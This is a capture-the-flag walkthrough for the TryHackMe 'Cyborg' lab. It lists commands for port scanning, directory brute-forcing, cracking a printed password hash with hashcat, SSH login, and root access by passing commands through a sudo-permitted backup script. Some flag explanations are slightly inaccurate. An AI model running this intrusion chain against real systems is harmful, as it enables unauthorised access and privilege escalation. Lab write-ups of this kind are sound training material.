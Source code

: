 # TRYHACKME – Cyborg (CTF)

![cyborg.png](img/cyborg.png)

Use nmap tool to scan target ports

**`nmap 10.10.23.140`**

![Untitled.png](img/Untitled.png)

Port: Services:

22     ssh (Secure Shell)

80     http (Hypertext Transfer Protocol)

Use gobuster tool to brute-force directories on web servers

`gobuster dir -u http://10.10.23.140 -w /usr/share/seclists/Discovery/Web-Content/common.txt`

> dir –> to search for directories

> -u –> specify the URL

> -w –> path to the worldlist

![2024-10-12 02_44_02-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_02_44_02-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

Directories found:

/admin

/etc

![2024-10-12 02_45_55-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_02_45_55-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

![2024-10-12 02_47_02-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_02_47_02-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

![2024-10-12 02_47_53-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_02_47_53-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

**Identify the hash type**

**`hash-identifier`** 

**> hash** –> **$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.**

![2024-10-12 02_49_47-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_02_49_47-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

**hash type: md5(APR)**

Crack hash using hashcat tool

**`hashcat -m 1600 -a 0 hash.txt /usr/share/wordlists/rockyou.txt`**

> -m –> specifies the hash type (1600 – md5 APR)

> -a –> specifies the attack mode (0 – brute force)

![2024-10-12 02_51_27-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_02_51_27-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

![2024-10-12 02_55_34-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_02_55_34-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

Unzip the file

**`tar –xf archive.tar`**

> -xf –> used to extract .rar files

![2024-10-12 02_56_19-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_02_56_19-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

![2024-10-12 02_57_22-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_02_57_22-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

![2024-10-12 02_56_19-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_02_56_19-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox%201.png)

**`cat README`**

Give as a hint to search for BorgBackup tool

Download borgbackup tool

**`apt install borgbackup –y`**

Extract files with borg

**`sudo borg extract Downloads/home/field/dev/final_archive::music_archive`**

Use the previous cracked  password

**`cat note.txt`**

![2024-10-12 03_02_04-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_03_02_04-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

Connect to the target machine via ssh

**`ssh alex@10.10.159.75`**

![2024-10-12 03_03_59-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_03_03_59-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

**`cat user.txt`**

![2024-10-12 03_05_03-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_03_05_03-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

List the user privileges to see what we can do with this user

**`sudo -l`**

![2024-10-12 03_06_23-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_03_06_23-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

alex can run this script as “sudo”

`cd /etc/mp3backups`

![2024-10-12 03_11_51-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_03_11_51-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

**`cat backup.sh`**

![2024-10-12 03_13_07-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_03_13_07-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

Optional arguments can be passed through this instruction (OPTARG) 

List directories on root

**`sudo ./backup.sh -c “ls /root”`**

> -c –> pass a command

![2024-10-12 03_20_07-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_03_20_07-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

**`sudo ./backup.sh -c “cat /root/root.txt”`**

![2024-10-12 03_21_40-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_03_21_40-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)
